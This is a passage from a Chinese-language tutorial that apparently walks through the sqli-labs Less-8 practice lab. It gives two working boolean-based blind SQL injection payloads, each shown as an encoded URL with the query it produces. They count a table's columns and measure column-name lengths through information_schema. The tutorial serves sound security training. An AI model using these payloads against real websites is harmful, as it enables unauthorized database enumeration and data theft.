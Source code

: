 同获取数据库中表的数量方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(column_name)%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database())=2%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(column_name) from Information_schema.columns where table_name = 'emails' and table_schema=database())=2#' LIMIT 0,1
;
```

![](image/19.jpg)

#### 获取列名长度

同获取数据库中表名长度方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20column_name%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database()%20limit%200,1))=2%23
SQL:
SELECT * FROM users WHERE id='1' and length((select column_name from Information_schema.columns where table_name = 'emails' and table_schema=database() limit 0,1))=2#' LIMIT 0,1
;
```
